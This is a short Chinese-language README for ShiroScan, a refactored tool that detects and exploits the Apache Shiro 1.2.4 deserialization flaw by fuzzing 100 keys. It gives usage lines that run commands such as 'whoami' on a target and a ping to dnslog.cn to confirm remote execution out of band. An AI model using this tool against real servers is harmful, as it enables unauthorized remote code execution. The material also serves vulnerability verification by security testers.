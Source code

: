 # ShiroScan
Shiro&lt;=1.2.4反序列化，一键检测工具

```
集成100个key进行fuzz
```

* 本项目基于https://github.com/sv3nbeast/ShiroScan 进行代码重构
* pip3 install -r requirments.txt     

* Usage：python3 shiro.py  url  command
* Usage：python3 shiro.py  http://url.com  whoami

* http://www.dnslog.cn/   验证推荐使用这个dnslog平台，速度比ceye.io要快很多
* 执行的命令带空格记得用""引起来

* usage：python3 shiro.py  http://url.com  "ping dnslog.cn"
* 7个模块全部跑一遍,然后去dnslog平台查看是否收到请求，不出来就GG，也可能是因为编码还不够多
* 请自行收集编码，直接添加到key1.txt里就行了

## 
## 仅供安全人员验证,测试是否存在此漏洞



